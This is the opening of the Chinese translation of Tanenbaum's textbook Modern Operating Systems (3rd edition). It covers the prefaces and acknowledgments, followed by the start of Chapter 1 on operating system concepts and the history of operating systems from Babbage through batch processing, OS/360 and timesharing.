计算机科学丛书
现代操作系统（原书第3版）
Modern Operating Systems,Third Edition
[荷]塔嫩鲍姆（Tanenbaum,A.S.） 著
陈向群 马洪兵 等译
ISBN：978-7-111-25544-4
本书纸版由机械工业出版社于2009年出版，电子版由华章分社（北京华章图文信息有限公司）全球范围内制作与发行。
版权所有，侵权必究
客服热线：+ 86-10-68995265
客服信箱：service@bbbvip.com
官方网址：www.hzmedia.com.cn
新浪微博 @研发书局
腾讯微博 @yanfabook
文艺复兴以降，源远流长的科学精神和逐步形成的学术规范，使西方国家在自然科学的各个领域取得了垄断性的优势；也正是这样的传统，使美国在信息技术发展的六十多年间名家辈出、独领风骚。在商业化的进程中，美国的产业界与教育界越来越紧密地结合，计算机学科中的许多泰山北斗同时身处科研和教学的最前线，由此而产生的经典科学著作，不仅擘划了研究的范畴，还揭示了学术的源变，既遵循学术规范，又自有学者个性，其价值并不会因年月的流逝而减退。
近年，在全球信息化大潮的推动下，我国的计算机产业发展迅猛，对专业人才的需求日益迫切。这对计算机教育界和出版界都既是机遇，也是挑战；而专业教材的建设在教育战略上显得举足轻重。在我国信息技术发展时间较短的现状下，美国等发达国家在其计算机科学发展的几十年间积淀和发展的经典教材仍有许多值得借鉴之处。因此，引进一批国外优秀计算机教材将对我国计算机教育事业的发展起到积极的推动作用，也是与世界接轨、建设真正的世界一流大学的必由之路。
机械工业出版社华章分社较早意识到“出版要为教育服务”。自1998年开始，华章分社就将工作重点放在了遴选、移译国外优秀教材上。经过多年的不懈努力，我们与Pearson，McGraw-Hill，Elsevier，MIT，John Wiley＆Sons，Cengage等世界著名出版公司建立了良好的合作关系，从他们现有的数百种教材中甄选出Andrew S.Tanenbaum，Bjarne Stroustrup，Brain W.Kernighan，Dennis Ritchie，Jim Gray，Afred V.Aho，John E.Hopcroft，Jeffrey D.Ullman，Abraham Silberschatz，William Stallings，Donald E.Knuth，John L.Hennessy，Larry L.Peterson等大师名家的一批经典作品，以“计算机科学丛书”为总称出版，供读者学习、研究及珍藏。大理石纹理的封面，也正体现了这套丛书的品位和格调。
“计算机科学丛书”的出版工作得到了国内外学者的鼎力襄助，国内的专家不仅提供了中肯的选题指导，还不辞劳苦地担任了翻译和审校的工作；而原书的作者也相当关注其作品在中国的传播，有的还专程为其书的中译本作序。迄今，“计算机科学丛书”已经出版了近两百个品种，这些书籍在读者中树立了良好的口碑，并被许多高校采用为正式教材和参考书籍。其影印版“经典原版书库”作为姊妹篇也被越来越多实施双语教学的学校所采用。
权威的作者、经典的教材、一流的译者、严格的审校、精细的编辑，这些因素使我们的图书有了质量的保证。随着计算机科学与技术专业学科建设的不断完善和教材改革的逐渐深化，教育界对国外计算机教材的需求和应用都将步入一个新的阶段，我们的目标是尽善尽美，而反馈的意见正是我们达到这一终极目标的重要帮助。华章分社欢迎老师和读者对我们的工作提出建议或给予指正，我们的联系方法如下：
华章网站：www.hzbook.com
电子邮件：hzjsj@hzbook.com
联系电话：（010）88379604
联系地址：北京市西城区百万庄南街1号
邮政编码：100037
Andrew S.Tanenbaum教授写作的《现代操作系统》，无论是英文版还是中文版都受到了中国读者的欢迎。究其原因，该书内容丰富，反映了当代操作系统的发展与动向。这次出版的第3版，无疑在保持原有特色的基础上，又有所发展。
第3版的一个很大变化是，大大加强了对操作系统中许多抽象概念的叙述，包括CPU到进程的抽象、物理内存到地址空间（虚拟内存）的抽象以及磁盘到文件的抽象等。Tanenbaum教授在《现代操作系统》前两版中，在这一方面确实着墨不多。译者在翻译该书前两版的内容时，就对此有些疑问，似乎Tanenbaum教授的讲授方法与众不同。这是因为，在国内许多院校的操作系统教学过程中，授课教师非常重视对这些抽象概念的讲解和分析。而且据译者所知，在美国不少大学的操作系统教学过程中，也很重视对这些抽象概念的引入。译者认为，Tanenbaum教授在第3版中对有关操作系统基本抽象概念叙述方式的重大修改，是对《现代操作系统》内在质量的提升，将使第3版受到更多中国教师和读者的欢迎。
第3版的另外一个重大变化是，第10章、第11章和第12章是由另外三位作者贡献的，他们分别是美国佐治亚理工学院的Ada Gavrilovska博士、Microsoft公司的Dave Probert博士以及Hope学院的Mike Jipping教授。
第10章的贡献者Ada Gavrilovska博士在美国佐治亚理工学院的计算学院从事教学和科研工作，她具有多年讲授高级操作系统等有关课程的经验，是一位造诣很高的研究科学家。
第11章的贡献者——Microsoft公司的Dave Probert博士是译者的老朋友了。我们在编写机械工业出版社出版的《Windows操作系统原理》以及《Windows内核实验教程》等书籍的过程中，有过密切的合作。Dave Probert博士是Microsoft公司Windows操作系统内核的主要设计人员之一，他对操作系统的把握以及以设计师身份对Windows操作系统内核深入和广泛的认识，几乎无人可以比拟。Dave Probert博士写作了第11章，并指出哪些地方Microsoft做对了，哪些地方Microsoft做错了。正如Tanenbaum教授在前言中指出的：“由于Dave的工作，本书的质量有了很大提高”。
Mike Jipping教授是Hope学院计算机系的主任，具有长期的教学与科研经验。他早在2002年就出版了专著《Symbian OS Communications Programming》，对用于智能手机的Symbian操作系统有着深刻的理解，由他来写作有关Symbian OS的第12章，当然是再合适不过了。
本书还增加了许多新的习题，有助于读者深入理解操作系统的精髓。
本书的出版得到了机械工业出版社华章分社的大力支持，在此表示由衷感谢。
参加本书翻译、审阅和校对的还有桂尼克、古亮、孔俊俊、孙剑、畅明、白光冬、刘晗、冯涛、张旦峰、陈子文、王刚、张琳、赵敬峰、张顺廷、张毅然、荀娜、张晓薇、周晓云、李昌术等。此外，赵霞博士对一些名词术语的翻译提出了宝贵意见。在此对他（她）们的贡献表示诚挚的感谢。
由于译者水平有限，本书的译文必定会存在一些不足或错误之处，欢迎各位专家和广大读者批评指正。
译者
2009年5月
第3版与第2版有很大的不同。首先，重新安排了章节，把中心材料安排到了本书的开始部分。对于操作系统这一各种抽象的创建者，给予了更多的关注。对第1章进行了大量的更新，引入了所有的概念。第2章涉及从CPU到多进程的抽象。第3章是关于物理内存到地址空间（虚拟内存）的抽象。第4章是关于磁盘到文件的抽象。进程、虚拟地址空间以及文件是操作系统所呈现的关键概念，所以与以前版本相比将这些章节安排在更为靠前的位置。
第1章在很多地方都进行了大量的修改和更新。例如，为那些只熟悉Java语言的读者安排了对C程序设计语言和C运行时模式的介绍。
在第2章里，更新和扩充了有关线程的讨论，以反映它们的重要性。另外，还安排了一节关于IEEE标准Pthread的讨论。
第3章讨论存储管理，已经重新进行了组织，用以强调操作系统的这一项关键功能，即为每个进程提供虚拟地址空间的抽象。有关批处理系统存储管理的陈旧材料已经删去，对有关分页实现的部分进行了更新，以便能够满足对已经很常见的大地址空间和速度方面管理的需要。
对第4章到第7章进行了更新，删去了陈旧材料，添加了一些新的材料。这些章中有关当前研究的小节是全部重新写作的。此外，还增加了许多新的习题和程序练习。
更新了包括多核系统的第8章，增加了关于虚拟技术、虚拟机管理程序和虚拟机一节，并以VMware为例。
对第9章进行了很大的修改和重新组织，纳入关于利用代码错误、恶意软件和对抗它们的大量新材料。
第10章介绍Linux，这是原先第10章（UNIX和Linux）的修改版。显然，本章重点是Linux，增加了大量的新材料。
涉及Windows Vista的第11章对原有的内容（关于Windows 2000）做了很大的修改，有关Windows的内容用最新的材料进行了更新。
第12章是全新的。作者认为，尽管嵌入式操作系统远比用于PC和笔记本电脑中的操作系统要多，但是，对于用于手机和PDA中的嵌入式操作系统，在很多教科书中还是被忽略了。本版弥补了这个缺憾，对普遍用于智能手机的Symbian OS进行了广泛的讨论。
第13章是关于操作系统设计的，第2版的内容多数都保留了。
本书为教师提供了大量的教学辅助材料，可以在如下网站得到：www.prenhall.com/tanenbaum。网站中包括PPT、学习操作系统的软件工具、学生实验、模拟程序，以及许多关于操作系统课程的材料。采用本书的教师有必要访问该网站。
这一版得到了许多人的帮助。首先最重要的是编辑Tracy Dunkelberger。Tracy对本书不仅尽责而且超出了其本职范围，如安排大量的评阅，协助处理所有的补充材料，处理合约，与出版社接洽，协调大量的并发事务，设法使工作按时完成等。她还使我遵守一个严格的时间表，以保证本书按时出版。谢谢Tracy。
佐治亚理工学院的Ada Gavrilovska是Linux内核技术专家，他更新了第10章，从UNIX(重点在FreeBSD)转向了Linux，当然该章的许多内容对所有的UNIX系统也适用。在学生中Linux比FreeBSD更普及，所以这是一个有意义的转变。
Microsoft公司的Dave Probert更新了第11章，从Windows 2000转向了Windows Vista，尽管两者存在着相似之处，但它们之间还是有很大差别的。Dave对Windows技术有深刻的认识，并足以指出哪些地方Microsoft做对了，哪些地方Microsoft做错了。由于Dave的工作，本书的质量有了很大提高。
Hope学院的Mike Jipping写作了有关Symbian OS这一章。如果缺乏关于嵌入式实时系统的内容，则会使本书存在重大缺憾，感谢Mike使本书免除了这个问题。在现实世界中，嵌入式实时系统变得越来越重要，本章对这方面的内容提供了出色的论述。
与Ada、Dave和Mike都各自专注一章不同，科罗拉多大学Boulder分校的Shivakant Mishra更像是一个分布式系统，他阅读和评述了许多章节，并为本书提供了大量的新习题和编程问题。
还值得提出的是Hugh Lauer。在我们询问他有关修改第2版的建议时，不曾想得到一份23页的报告。本书的许多修改，包括对进程、地址空间和文件等抽象的着重强调，都是源于他的意见。
对那些以各种方式（从新论题建议到封面，细心阅读文稿，提供补充材料，贡献新习题等）给予支持的其他人士，作者也不胜感激。这些人士是Steve Armstrong、Jeffrey Chastine、John Connelly、Mischa Geldermans、Paul Gray、James Griffioen、Jorrit Herder、Michael Howard、Suraj Kothari、Roger Kraft、Trudy Levine、John Masiyowski、Shivakant Mishra、Rudy Pait、Xiao Qin、Mark Russinovich、Krishna Sivalingam、Leendert van Doorn和Ken Wong。
Prentice Hall的员工总是友好和乐于助人的，特别是负责生产的Irwin Zucker和Scott Disanno，以及负责编辑的David Alick、ReeAnne Davies和Melinda Haggerty。
Barbara和Marvin像往常一样，保持着各自独特的美妙方式。当然，还要感谢付出了爱和耐心的Suzanne。
Andrew S.Tanenbaum
现代计算机系统由一个或多个处理器、主存、磁盘、打印机、键盘、鼠标、显示器、网络接口以及各种其他输入/输出设备组成。一般而言，现代计算机系统是一个复杂的系统。如果每位应用程序员都不得不掌握系统所有的细节，那就不可能再编写代码了。而且，管理所有这些部件并加以优化使用，是一件挑战性极强的工作。所以，计算机安装了一层软件，称为操作系统，它的任务是为用户程序提供一个更好、更简单、更清晰的计算机模型，并管理刚才提到的所有这些设备。本书的主题就是操作系统。
多数读者都会对诸如Windows、Linux、FreeBSD或Mac OS X等某个操作系统有些体验，但表面现象是会骗人的。用户与之交互的程序，基于文本的通常称为shell，而基于图标的则称为图形用户界面（Graphical User Interface，GUI），它们实际上并不是操作系统的一部分，尽管这些程序使用操作系统来完成工作。
图1-1给出了在这里所讨论主要部件的一个简化视图。图的底部是硬件。硬件包括芯片、电路板、磁盘、键盘、显示器以及类似的设备。在硬件的顶部是软件。多数计算机有两种运行模式：内核态和用户态。软件中最基础的部分是操作系统，它运行在内核态（也称为管态、核心态）。在这个模式中，操作系统具有对所有硬件的完全访问权，可以执行机器能够运行的任何指令。软件的其余部分运行在用户态下。在用户态下，只使用了机器指令中的一个子集。特别地，那些会影响机器的控制或可进行I/O（输入/输出）操作的指令，在用户态中的程序里是禁止的。在本书中，我们会不断地讨论内核态和用户态之间的差别。
用户接口程序，shell或者GUI，处于用户态程序中的最低层次，允许用户运行其他程序，诸如Web浏览器、电子邮件阅读器或音乐播放器等。这些程序也大量使用操作系统。
操作系统所在的位置如图1-1所示。它运行在裸机之上，为所有其他软件提供基础的运行环境。

操作系统和普通软件（用户态）之间的主要区别是，如果用户不喜欢某个特定的电子邮件阅读器，他可以自由选择另一个，或者选择自己写一个，但是他不能自行写一个属于操作系统一部分的时钟中断处理程序。这个程序由硬件保护，防止用户试图对其进行修改。
然而，有时在嵌入式系统（该系统没有内核态）或解释系统（如基于Java的操作系统，它采用解释方式而非硬件方式区分组件）中，上述区别是模糊的。
另外，在许多系统中，一些在用户态下运行的程序协助操作系统完成特权功能。例如，经常有一个程序供用户修改其口令之用。但是这个程序不是操作系统的一部分，也不在内核态下运行，不过它明显地带有敏感的功能，并且必须以某种方式给予保护。在某些系统中，这种想法被推向了极致，一些传统上被认为是操作系统的部分（诸如文件系统）在用户空间中运行。在这类系统中，很难划分出一条明显的界限。在内核态中运行的当然是操作系统的一部分，但是一些在内核外运行的程序也有争议地被认为是操作系统的一部分，或者至少与操作系统密切相关。
操作系统与用户（即应用）程序的差异并不在于它们所处的地位。特别地，操作系统是大型、复杂和长寿命的程序。Linux或Windows操作系统的源代码有5百万行数量级。要理解这个数量的含义，请考虑具有5百万行的一套书，每页50行，每卷1000页（比本书厚）。为了以书的大小列出一个操作系统，需要有100卷书——基本上需要一整个书架来摆放。请设想一下有个维护操作系统的工作，第一天老板带你到装有代码的书架旁，说：“去读吧。”而这仅仅是运行在内核中的部分代码。用户程序，如GUI、库以及基本应用软件（类似于Windows Explorer）等，很容易就能达到这个代码数量的10倍或20倍之多。
至于为什么操作系统的寿命较长，读者现在应该清楚了——操作系统是很难编写的。一旦编写完成，操作系统的所有者当然不愿意把它扔掉，再写一个。相反，操作系统会在长时间内进行演化。基本上可以把Windows 95/98/Me看成是一个操作系统，而Windows NT/2000/XP/Vista则是另外一个操作系统。对于用户而言，它们看上去很相像，因为微软公司努力使Windows 2000/XP与被替代的系统，如Windows 98，两者的用户界面看起来十分相似。无论如何，微软公司要舍弃Windows 98是有非常正当的原因的，我们将在第11章涉及Windows细节时具体讨论这一内容。
贯穿本书的其他主要例子（除了Windows）还有UNIX，以及它的变体和克隆版。UNIX，当然也演化了多年，如System V版、Solaris以及FreeBSD等都是来源于UNIX的原始版；不过尽管Linux非常像依照UNIX模式而仿制，并且与UNIX高度兼容，但是Linux具有全新的代码基础。本书将采用来自UNIX中的示例，并在第10章中具体讨论Linux。
本章将简要叙述操作系统的若干重要部分，内容包括其含义、历史、分类、一些基本概念及其结构。在后面的章节中，我们将具体地讨论这些重要内容。
很难给出操作系统的准确定义。操作系统是一种运行在内核态的软件——尽管这个说法并不总是符合事实。部分原因是操作系统执行两个基本上独立的任务，为应用程序员（实际上是应用程序）提供一个资源集的清晰抽象，并管理这些硬件资源，而不仅仅是一堆硬件。另外，还取决于从什么角度看待操作系统。读者多半听说过其中一个或另一个的功能。下面我们逐项进行讨论。
在机器语言一级上,多数计算机的体系结构（指令集、存储组织、I/O和总线结构）是很原始的，而且编程是很困难的，尤其是对输入/输出操作而言。要更细致地考察这一点，可以考虑如何用NEC PD765控制器芯片来进行软盘I/O操作，多数基于Intel的个人计算机中使用了该控制器兼容芯片。（在本书中，术语“软盘”和“磁盘”是可互换的。）我们之所以使用软盘作为例子，是因为它虽然已经很少见，但是与现代硬盘相比则简单得多。PD765有16条命令，每一条命令向一个设备寄存器装入长度从1字节到9字节的特定数据。这些命令用于读写数据、移动磁头臂、格式化磁道，以及初始化、检测状态、复位、校准控制器及设备等。
最基本的命令是read和write。它们均需要13个参数，所有这些参数封装在9个字节中。这些参数所指定的信息有：欲读取的磁盘块地址、磁道的扇区数、物理介质的记录格式、扇区间隙以及对已删除数据地址标识的处理方法等。如果读者不懂这些“故弄玄虚”的语言，请不要担心，因为这正是关键所在——它们太玄秘了。当操作结束时，控制器芯片在7个字节中返回23个状态及出错字段。这样似乎还不够，软盘程序员还要注意保持步进电机的开关状态。如果电机关闭着，则在读写数据前要先启动它（有一段较长的启动延迟时间）。而电机又不能长时间处于开启状态，否则软盘片就会被磨坏。程序员必须在较长的启动延迟和可能对软盘造成损坏（和丢失数据）之间做出权衡。
现在不用再叙述读操作的具体过程了，很清楚，一般程序员并不想涉足软盘（或硬盘，更复杂）编程的这些具体细节。相反，程序员需要的是一种简单的、高度抽象的处理。在磁盘的情况下，典型的抽象是包含了一组已命名文件的一个磁盘。每个文件可以打开进行读写操作，然后进行读写，最后关闭文件。诸如记录是否应该使用修正的调频记录方式，以及当前电机的状态等细节，不应该出现在提供给应用程序员的抽象描述中。
抽象是管理复杂性的一个关键。好的抽象可以把一个几乎不可能管理的任务划分为两个可管理的部分。其第一部分是有关抽象的定义和实现，第二部分是随时用这些抽象解决问题。几乎每个计算机用户都理解的一个抽象是文件。文件是一种有效的信息片段，诸如数码照片、保存的电子邮件信息或Web页面等。处理数码照片、电子邮件以及Web页面等，要比处理磁盘的细节容易，这些磁盘的具体细节与前面叙述过的软盘一样。操作系统的任务是创建好的抽象，并实现和管理它所创建的抽象对象。本书中，我们将研究许多关于抽象的内容，因为这是理解操作系统的关键。
上述观点是非常重要的，所以值得用不同的表述语句来再次叙述。怀着对设计Macintosh机器的工业设计师的尊重，作者这里不得不说，硬件是丑陋的。真实的处理器、内存条、磁盘和其他装置都是非常复杂的，对于那些为使用某个硬件而不得不编写软件的人们而言，他们使用的是困难、可怕、特殊和不一致的接口。有时这是由于需要兼容旧的硬件，有时是为了节省成本，但是，有时硬件设计师们并没有意识到（或在意）他们给软件设计带来了多大的麻烦。操作系统的一个主要任务是隐藏硬件，呈现给程序（以及程序员）良好、清晰、优雅、一致的抽象。如图1-2所示，操作系统将丑陋转变为美丽。

需要指出，操作系统的实际客户是应用程序（当然是通过应用程序员）。它们直接与操作系统及其抽象打交道。相反，最终用户与用户接口所提供的抽象打交道，或者是命令行shell或者是图形接口。而用户接口的抽象可以与操作系统提供的抽象类似，但也不总是这样。为了更清晰地说明这一点，请读者考虑普通的Windows桌面以及面向行的命令提示符。两者都是运行在Windows操作系统上的程序，并使用了Windows提供的抽象，但是它们提供了非常不同的用户接口。类似地，运行Gnome或者KDE的Linux用户与直接在X Window系统（面向文本）顶部工作的Linux用户看到的是非常不同的界面，但是在这两种情形中，操作系统下面的抽象是相同的。
在本书中，我们将具体讨论提供给应用程序的抽象，不过很少涉及用户界面。尽管用户界面是一个巨大和重要的课题，但是它们毕竟只和操作系统的外围相关。
把操作系统看作是向应用程序提供基本抽象的概念，是一种自顶向下的观点。按照另一种自底向上的观点，操作系统则用来管理一个复杂系统的各个部分。现代计算机包含处理器、存储器、时钟、磁盘、鼠标、网络接口、打印机以及许多其他设备。从这个角度看，操作系统的任务是在相互竞争的程序之间有序地控制对处理器、存储器以及其他I/O接口设备的分配。
现代操作系统允许同时运行多道程序。假设在一台计算机上运行的三个程序试图同时在同一台打印机上输出计算结果，那么开始的几行可能是程序1的输出，接着几行是程序2的输出，然后又是程序3的输出等，最终结果将是一团糟。采用将打印结果送到磁盘上缓冲区的方法，操作系统可以把潜在的混乱有序化。在一个程序结束后，操作系统可以将暂存在磁盘上的文件送到打印机输出，同时其他程序可以继续产生更多的输出结果，很明显，这些程序的输出还没有真正送至打印机。
当一个计算机（或网络）有多个用户时，管理和保护存储器、I/O设备以及其他资源的需求变得强烈起来，因为用户间可能会互相干扰。另外，用户通常不仅共享硬件，还要共享信息（文件、数据库等）。简而言之，操作系统的这一种观点认为，操作系统的主要任务是记录哪个程序在使用什么资源，对资源请求进行分配，评估使用代价，并且为不同的程序和用户调解互相冲突的资源请求。
资源管理包括用以下两种不同方式实现多路复用（共享）资源：在时间上复用和在空间上复用。当一种资源在时间上复用时，不同的程序或用户轮流使用它。先是第一个获得资源的使用，然后下一个，以此类推。例如，若在系统中只有一个CPU，而多个程序需要在该CPU上运行，操作系统则首先把该CPU分配给某一个程序，在它运行了足够长的时间之后，另一个程序得到CPU，然后是下一个，如此进行下去，最终，轮到第一个程序再次运行。至于资源是如何实现时间复用的——谁应该是下一个以及运行多长时间等——则是操作系统的任务。还有一个有关时间复用的例子是打印机的共享。当多个打印作业在一台打印机上排队等待打印时，必须决定将轮到打印的是哪个作业。
另一类复用是空间复用。每个客户都得到资源的一部分，从而取代了客户排队。例如，通常在若干运行程序之间分割内存，这样每一个运行程序都可同时入住内存（例如，为了轮流使用CPU）。假设有足够的内存可以存放多个程序，那么在内存中同时存放若干个程序的效率，比把所有内存都分给一个程序的效率要高得多，特别是，如果一个程序只需要整个内存的一小部分时，结果更是这样。当然，如此的做法会引起公平、保护等问题，这有赖于操作系统解决它们。有关空间复用的其他资源还有磁盘。在许多系统中，一个磁盘同时为许多用户保存文件。分配磁盘空间并记录谁正在使用哪个磁盘块，是操作系统资源管理的典型任务。
操作系统已经存在许多年了。在下面的小节中，我们将简要地分析一些操作系统历史上的重要之处。操作系统与其所运行的计算机体系结构的联系非常密切。我们将分析连续几代的计算机，看看它们的操作系统是什么样的。把操作系统的分代映射到计算机的分代上有些粗糙，但是这样做确实有某些作用，否则还没有其他好办法能够说清楚操作系统的历史。
下面给出的有关操作系统的发展主要是按照时间线索叙述的，且在时间上是有重叠的。每个发展并不是等到先前一种发展完成后才开始。存在着大量的重叠，不用说还存在有不少虚假的开始和终结时间。请读者把这里的文字叙述看成是一种指引，而不是盖棺论定。
第一台真正的数字计算机是英国数学家Charles Babbage（1792-1871）设计的。尽管Babbage花费了他几乎一生的时间和财产，试图建造他的“分析机”，但是他始终未能让机器正常的运转，因为它是一台纯机械的数字计算机，他所在时代的技术不能生产出他所需要的高精度轮子、齿轮和轮牙。毫无疑问，这台分析机没有操作系统。
有一段有趣的历史花絮，Babbage认识到他的分析机需要软件，所以他雇佣了一个名为Ada Lovelace的年轻妇女，作为世界上第一个程序员，而她是著名的英国诗人Lord Byron的女儿。程序设计语言Ada则是以她命名的。
从Babbage失败之后一直到第二次世界大战，数字计算机的建造几乎没有什么进展，第二次世界大战刺激了有关计算机研究的爆炸性开展。Iowa州立大学的John Atanasoff教授和他的学生Clifford Berry建造了据认为是第一台可工作的数字计算机。该机器使用了300个真空管。大约在同时，Konrad Zuse在柏林用继电器构建了Z3计算机，英格兰布莱切利园的一个小组在1944年构建了Colossus，Howard Aiken在哈佛大学建造了Mark I，宾夕法尼亚大学的William Mauchley和他的学生J.Presper Eckert建造了ENIAC。这些机器有的是二进制的，有的使用真空管，有的是可编程的，但是都非常原始，甚至需要花费数秒时间才能完成最简单的运算。
在那个早期年代里，同一个小组的人（通常是工程师们）设计、建造、编程、操作并维护一台机器。所有的程序设计是用纯粹的机器语言编写的，甚至更糟糕，需要通过将上千根电缆接到插件板上连接成电路，以便控制机器的基本功能。没有程序设计语言（甚至汇编语言也没有），操作系统则从来没有听说过。使用机器的一般方式是，程序员在墙上的机时表上预约一段时间，然后到机房中将他的插件板接到计算机里，在接下来的几小时里，期盼正在运行中的两万多个真空管不会烧坏。那时，所有的计算问题实际都只是简单的数字运算，如制作正弦、余弦以及对数表等。
到了20世纪50年代早期有了改进，出现了穿孔卡片，这时就可以将程序写在卡片上，然后读入计算机而不用插件板，但其他过程则依然如旧。
20世纪50年代晶体管的发明极大地改变了整个状况。计算机已经很可靠，厂商可以成批地生产并销售计算机给用户，用户可以指望计算机长时间运行，完成一些有用的工作。此时，设计人员、生产人员、操作人员、程序人员和维护人员之间第一次有了明确的分工。
这些机器，现在被称作大型机（mainframe），锁在有专用空调的房间中，由专业操作人员运行。只有少数大公司、重要的政府部门或大学才接受数百万美元的标价。要运行一个作业（job，即一个或一组程序），程序员首先将程序写在纸上（用FORTRAN语言或汇编语言），然后穿孔成卡片，再将卡片盒带到输入室，交给操作员，接着就喝咖啡直到输出完成。
计算机运行完当前的任务后，其计算结果从打印机上输出，操作员到打印机上撕下运算结果并送到输出室，程序员稍后就可取到结果。然后，操作员从已送到输入室的卡片盒中读入另一个任务。如果需要FORTRAN编译器，操作员还要从文件柜把它取来读入计算机。当操作员在机房里走来走去时许多机时被浪费掉了。
由于当时的计算机非常昂贵，人们很自然地要想办法减少机时的浪费。通常采用的解决方法就是批处理系统（batch system）。其思想是：在输入室收集全部的作业，然后用一台相对便宜的计算机，如IBM 1401计算机，将它们读到磁带上。IBM 1401计算机适用于读卡片、复制磁带和输出打印，但不适用于数值运算。另外用较昂贵的计算机，如IBM 7094来完成真正的计算。这些情况如图1-3所示。

在收集了大约一个小时的批量作业之后，这些卡片被读进磁带，然后磁带被送到机房里并装到磁带机上。随后，操作员装入一个特殊的程序（现代操作系统的前身），它从磁带上读入第一个作业并运行，其输出写到第二盘磁带上，而不打印。每个作业结束后，操作系统自动地从磁带上读入下一个作业并运行。当一批作业完全结束后，操作员取下输入和输出磁带，将输入磁带换成下一批作业，并把输出磁带拿到一台1401机器上进行脱机（不与主计算机联机）打印。
典型的输入作业结构如图1-4所示。一开始是张$JOB卡片，它标识出所需的最大运行时间（以分钟为单位）、计费账号以及程序员的名字。接着是$FORTRAN卡片，通知操作系统从系统磁带上装入FORTRAN语言编译器。之后就是待编译的源程序，然后是$LOAD卡片，通知操作系统装入编译好的目标程序。接着是$RUN卡片，告诉操作系统运行该程序并使用随后的数据。最后，$END卡片标识作业结束。这些基本的控制卡片是现代shell和命令解释器的先驱。

第二代大型计算机主要用于科学与工程计算，例如，解偏微分方程。这些题目大多用FORTRAN语言和汇编语言编写。典型的操作系统是FMS（FORTRAN Monitor System，FORTRAN监控系统）和IBSYS（IBM为7094机配备的操作系统）。
20世纪60年代初期，大多数计算机厂商都有两条不同并且完全不兼容的生产线。一条是面向字的、大型的科学用计算机，诸如IBM 7094，主要用于科学和工程计算。另一条是面向字符的、商用计算机，诸如IBM 1401，银行和保险公司主要用它从事磁带归档和打印服务。
开发和维护两种完全不同的产品，对厂商来说是昂贵的。另外，许多新的计算机用户一开始时只需要一台小计算机，后来可能又需要一台较大的计算机，而且希望能够更快地执行原有的程序。
IBM公司试图通过引入System/360来一次性地解决这两个问题。360是一个软件兼容的计算机系列，其低档机与1401相当，高档机则比7094功能强很多。这些计算机只在价格和性能（最大存储器容量、处理器速度、允许的I/O设备数量等）上有差异。由于所有的计算机都有相同的体系结构和指令集，因此，在理论上，为一种型号机器编写的程序可以在其他所有型号的机器上运行。而且360被设计成既可用于科学计算，又可用于商业计算，这样，一个系列的计算机便可以满足所有用户的要求。在随后的几年里，IBM使用更现代的技术陆续推出了360的后续机型，如著名的370、4300、3080和3090系列。zSeries是这个系列的最新机型，不过它与早期的机型相比变化非常之大。
360是第一个采用（小规模）芯片（集成电路）的主流机型，与采用分立晶体管制造的第二代计算机相比，其性能/价格比有很大提高。360很快就获得了成功，其他主要厂商也很快采纳了系列兼容机的思想。这些计算机的后代仍在大型的计算中心里使用。现在，这些计算机的后代经常用来管理大型数据库（如航班定票系统）或作为web站点的服务器，这些服务器每秒必须处理数千次的请求。
“单一家族”思想的最大优点同时也是其最大的缺点。原因在于所有的软件，包括操作系统OS/360，要能够在所有机器上运行。从小的代替1401把卡片复制到磁带上的机器，到用于代替7094进行气象预报及其他繁重计算的大型机；从只能带很少外部设备的机器到有很多外设的机器；从商业领域到科学计算领域等。总之，它要有效地适用于所有这些不同的用途。
IBM（或其他公司）无法写出同时满足这些相互冲突需要的软件。其结果是一个庞大的又极其复杂的操作系统，它比FMS大了约2～3个数量级规模。其中包含数千名程序员写的数百万行汇编语言代码，也包含成千上万处错误，这就导致IBM不断地发行新的版本试图更正这些错误。每个新版本在修正老错误的同时又引入了新错误，所以随着时间的流逝，错误的数量可能大致保持不变。
OS/360的设计者之一Fred Brooks后来写过一本既诙谐又尖锐的书（Brooks,1996），描述他在开发OS/360过程中的经验。我们不可能在这里复述该书的全部内容，不过其封面已经充分表述了Fred Brooks的观点，一群史前动物陷入泥潭而不能自拔。Silberschatz等人著作（2005）的封面也表达了操作系统如同恐龙一般的类似观点。
抛开OS/360的庞大和存在的问题，OS/360和其他公司类似的第三代操作系统的确合理地满足了大多数用户的要求。同时，它们也使第二代操作系统所缺乏的几项关键技术得到了广泛应用。其中最重要的应该是多道程序设计（multiprogramming）。在7094机上，若当前作业因等待磁带或其他I/O操作而暂停时，CPU就只能简单地踏步直至该I/O完成。对于CPU操作密集的科学计算问题，I/O操作较少，因此浪费的时间很少。然而，对于商业数据处理，I/O操作等待的时间通常占到80%～90%，所以必须采取某种措施减少（昂贵的）CPU空闲时间的浪费。
解决方案是将内存分几个部分，每一部分存放不同的作业，如图1-5所示。当一个作业等待I/O操作完成时，另一个作业可以使用CPU。如果内存中可以同时存放足够多的作业，则CPU利用率可以接近100%。在内存中同时驻留多个作业需要特殊的硬件来对其进行保护，以避免作业的信息被窃取或受到攻击。360及其他第三代计算机都配有此类硬件。

第三代计算机的另一个特性是，卡片被拿到机房后能够很快地将作业从卡片读入磁盘。于是，任何时刻当一个作业运行结束时，操作系统就能将一个新作业从磁盘读出，装进空出来的内存区域运行。这种技术叫做同时的外部设备联机操作（Simultaneous Peripheral Operation On Line，SPOOLing），该技术同时也用于输出。当采用了SPOOLing技术后，就不再需要IBM 1401机，也不必再将磁带搬来搬去了。
第三代操作系统很适于大型科学计算和繁忙的商务数据处理，但其实质上仍旧是批处理系统。许多程序员很怀念第一代计算机的使用方式。那时，他们可以几个小时地独占一台机器，可以即时地调试他们的程序。而对第三代计算机而言，从一个作业提交到运算结果取回往往长达数小时，更有甚者，一个逗号的误用就会导致编译失败，而可能浪费了程序员半天的时间。
程序员们的希望很快得到了响应，这种需求导致了分时系统（timesharing）的出现。它实际上是多道程序的一个变体，每个用户都有一个联机终端。在分时系统中，假设有20个用户登录，其中17个在思考、谈论或喝咖啡，则CPU可分配给其他三个需要的作业轮流执行。由于调试程序的用户常常只发出简短的命令（如编译一个五页的源文件），而很少有长的费时命令（如上百万条记录的文件排序），所以计算机能够为许多用户提供快速的交互式服务，同时在CPU空闲时还可能在后台运行一个大作业。第一个通用的分时系统，兼容分时系统（Compatible Time Sharing System，CTSS）是MIT（麻省理工学院）在一台改装过的7094机上开发成功的（Corbató等人，1962年）。但直到第三代计算机广泛采用了必需的保护硬件之后，分时系统才逐渐流行开来。
